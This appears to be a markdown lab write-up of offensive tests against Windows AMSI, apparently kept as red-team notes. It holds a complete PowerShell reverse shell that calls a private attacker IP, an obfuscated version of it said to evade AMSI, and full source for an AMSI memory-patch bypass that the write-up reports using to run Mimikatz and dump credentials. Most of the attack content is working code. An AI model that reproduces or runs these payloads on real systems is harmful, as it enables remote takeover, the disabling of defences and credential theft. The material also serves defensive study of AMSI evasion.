





### Test 1 : Obfuscation of commands

First, it was verified that the following powershell reverse shell command would be detected by AMSI.

```powershell
$client = New-Object System.Net.Sockets.TCPClient('192.168.50.18',9999);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

As shown in the screenshot below, AMSI managed to detect the command as malicious and blocked it.



To obfuscate the command, the tool **Invoke Obfuscation** (https://github.com/danielbohannon/Invoke-Obfuscation) was used. 

After setting the "ScriptBlock" as our reverse shell command, we have the option to choose an encoding option



We discovered through testing and research that the most effective obfuscation method is **AST**. The regular encoding options, which include encoding the command in ASCII, Binary, and the encryption of the entire command as SecureString, all seem to get detected by AMSI pretty easily.

After encoding with the AST option, we get the following output : 

```
Set-Variable -Name client -Value (New-Object System.Net.Sockets.TCPClient('192.168.25.134',4444));Set-Variable -Name stream -Value ($client.GetStream());[byte[]]$bytes = 0..65535|%{0};while((Set-Variable -Name i -Value ($stream.Read($bytes, 0, $bytes.Length))) -ne 0){;Set-Variable -Name data -Value ((New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i));Set-Variable -Name sendback -Value (iex $data 2>&1 | Out-String );Set-Variable -Name sendback2 -Value ($sendback + 'PS ' + (pwd).Path + '> ');Set-Variable -Name sendbyte -Value (([text.encoding]::ASCII).GetBytes($sendback2));$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()  
```

After executing the command on the victim machine, we can see that it did not get detected/blocked by AMSI : 


Back in our attacker machine (kali), we can verify that the reverse shell connection was successful.


However, this method would not be very helpful if the attacker had to run multiple commands. That would mean each command would have to be repeatedly encoded using the Invoke-Obfuscation tool. Thus, this method is better if used to execute one command only (e.g Invoke-Mimikatz)

The better option would be disabling AMSI entirely.

--- 

### Test 2 : Disabling AMSI - Memory Patching Method

The following method completely disables AMSI by using a memory patch. Further research needs to be done on how exactly it works, but we were nonetheless able to test that it is an effective method.

Note : This bypass disables AMSI only for the terminal it was executed on.

Source Code from https://aidenpearce369.github.io/offsec/AMSI-Memory-Bypass/ : 

```powershell
$pinvoke_obj = @"
using System;
using System.Runtime.InteropServices;

public class WinApi {
	
	[DllImport("kernel32")]
	public static extern IntPtr LoadLibrary(string name);
	
	[DllImport("kernel32")]
	public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
	
	[DllImport("kernel32")]
	public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out int lpflOldProtect);
	
}
"@
Add-Type $pinvoke_obj
$amsiDll = [WinApi]::LoadLibrary("ams"+"i.dll")
$funcAddr = [WinApi]::GetProcAddress($amsiDll, "Ams"+"iScanB"+"uffer")
$patch = [Byte[]](0xc3,0x80,0x07,0x00,0x57,0xb8)
$out = 0
[WinApi]::VirtualProtect($funcAddr, [uint32]$patch.Length, 0x40, [ref] $out)
[System.Runtime.InteropServices.Marshal]::Copy($patch, 0, $funcAddr, $patch.Length)
[WinApi]::VirtualProtect($funcAddr, [uint32]$patch.Length, $out, [ref] $null)
```

However, as the original source code has been out for some time (2022), Windows Defender has already blocked it from running.


Thus, we first obfuscate the code. After obfuscation using the same tool in the first test (Invoke-Obfuscation), we managed to run the script successfully without any error : 



The screenshot below shows the output when we entered the string "Invoke-Mimikatz" before our bypass. As expected, AMSI flags it as malicious content.



However, after the memory patch, we able to use Mimikatz with no error and dump credentials.




We were also able to freely run other powershell commands (such as reverse shells) without the need of obfuscating them.


Other references : https://www.cyberark.com/resources/threat-research-blog/amsi-bypass-redux
